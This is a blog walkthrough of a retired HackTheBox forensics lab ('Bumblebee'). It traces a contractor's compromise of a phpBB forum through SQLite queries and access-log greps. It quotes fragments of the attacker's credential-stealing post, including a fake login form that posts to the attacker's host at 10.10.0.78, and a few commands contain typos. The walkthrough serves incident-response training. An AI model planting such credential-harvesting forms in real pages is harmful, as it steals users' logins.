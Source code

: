 ```yaml
---
layout: post
title:  "Full Meal: Bumblebee Sherlock"
date:   2025-05-31
author: C. Casquatch
comments: false
tags: ['sqlitebrowser', 'access logs', 'sqlite3', 'htb']
---
```


> RETIRED: Bumblebee Sherlock Walkthrough

**Note**: This is a casual walkthrough I put together because the original write-up was a bit overwhelming—especially because I am new to SQLite Browser. Hopefully, this helps others in the same boat!

---

## Scenario

> *"An external contractor has accessed the internal forum here at Forela via the Guest Wi-Fi, and they appear to have stolen credentials for the administrative user! We have attached some logs from the forum and a full database dump in sqlite3 format to help you in your investigation."*

---

## Getting Started

Install SQLite browser (on Parrot OS):
```
sudo apt install sqlitebrowser
```

Navigate to the folder where the `incident` folder is saved. This makes referencing files easier.

To access the SQLite database:
```
sqlite3 phpbb.sqlite3
```

You should see the `sqlite>` prompt.

![screenshot 1](/assets/images/bumblebee/screenshot1.png)


To view the schema of the `phpbb_users` table:
```
.schema php_users
```

![screenshot 2](/assets/images/bumblebee/screenshot2.png)

---

## Q1: What was the username of the external contractor?

Run the following query:
```
SELECT user_id, username, user_email, user_lastvisit, user_ip FROM phpbb_users;
```

![screenshot 3](/assets/images/bumblebee/screenshot3.png)

To narrow it down further:
```
SELECT user_id, username, user_email, user_ip
FROM phpbb_users
WHERE username LIKE '%contractor%' OR user_email LIKE '%contractor%' OR user_ip = 'KNOWN_IP';
```

---

## Q2: What IP address did the contractor use?

This can be found from the same query above using the `user_ip` field.

---

## Q3: What is the post_id of the malicious post that the contractor made?

From Q1, let’s say the user ID is 52. Set display modes for easier output:
```
.headers on
.mode column
```

Then run:
```
SELECT post_id, post_subject, post_text
FROM phpbb_posts
WHERE poster_id = 52;
```

---

## Q4: What is the full URI that the credential stealer sends its data to?

From the `post_text`, we find HTML content.

![screenshot 4](/assets/images/bumblebee/screenshot4.png)

Export to HTML:
```
.headers on
.mode html
.output results.html
```

The file will be saved in the directory your terminal is pointed to.

![screenshot 5](/assets/images/bumblebee/screenshot5.png)

Look for this function in the HTML:

```
<script>
function setHidden() {
    const d = new Date();
    d.setTime(d.getTime() + (24 * 60 * 60 * 1000));
    let expires = "expires=" + d.toUTCString();
    document.cookie = "phpbb_token=1;" + expires + ";";

    const modal = document.getElementById('zbzbz1234');
    modal.classList.add("hidden");
}
...
</script>
```

Eventually you'll find this form:

```
<form action="http://10.10.0.78/update.php" method="post" id="login" ...>
  ...
</form>
```

Reset output to terminal:
```
.output stdout
```

---

## Q5: When did the contractor log into the forum as the administrator?

Answered after Q6 and Q8, using `LOG_ADMIN_AUTH_SUCCESS` (not the first instance).

---

## Q6: What is the password for the LDAP connection?

Query the `phpbb_config` table:
```
SELECT * FROM phpbb_config WHERE config_name LIKE 'ldap_%';
```

![screenshot 6](/assets/images/bumblebee/screenshot6.png)

---

## Q7: What is the user agent of the Administrator user?

After determining the admin's IP (e.g. `10.255.254.2`) from Q8, run:
```
grep -E '^10.255.254.2' access.log | head
```

Look for the last quoted string in the line. That’s your user agent.

![screenshot 8](/assets/images/bumblebee/screenshot8.png)

---

## Q8: What time did the contractor add themselves to the Administrator group?

Run this query:
```
.headers on
.mode column
SELECT
    log_id, 
    phpbb_users.username,
    log_ip,
    datetime(log_time, 'uniepoch'),
    log_operation,
    log_data
FROM
    phpbb_log
INNER JOIN phpbb_users ON phpbb_log.user_id = phpbb_users.user_id;
```

![screenshot 7](/assets/images/bumblebee/screenshot7.png)

Note the timestamp and IP address of the action.

---

## Q9: What time did the contractor download the database backup?

Use contractor’s IP (`10.10.0.78`) and date `26/Apr/2023`:
```
grep -E '^10.10.0.78' access.log | grep '26/Apr/2023:1' | tail
```

Explanation:
- `^` matches start of line.
- `:1` filters for times starting with 1 (10:00–19:59).
- `tail` gets the latest relevant lines.

![screenshot 9](/assets/images/bumblebee/screenshot9.png)

Note: The write-up indicates that you have to subtract an hour from the log time to get UTC. Not sure why—maybe just take their word for it.

---

## Q10: What was the size in bytes of the database backup as stated by access.log?

Same grep result from Q9. Look for the value next to the `200` HTTP status—it’s likely something like `34707`.

---

Enjoyed the lab? Confused by some things? Same here. Hopefully this helped you piece things together more easily.


<button onclick="history.back()">Go Back</button>
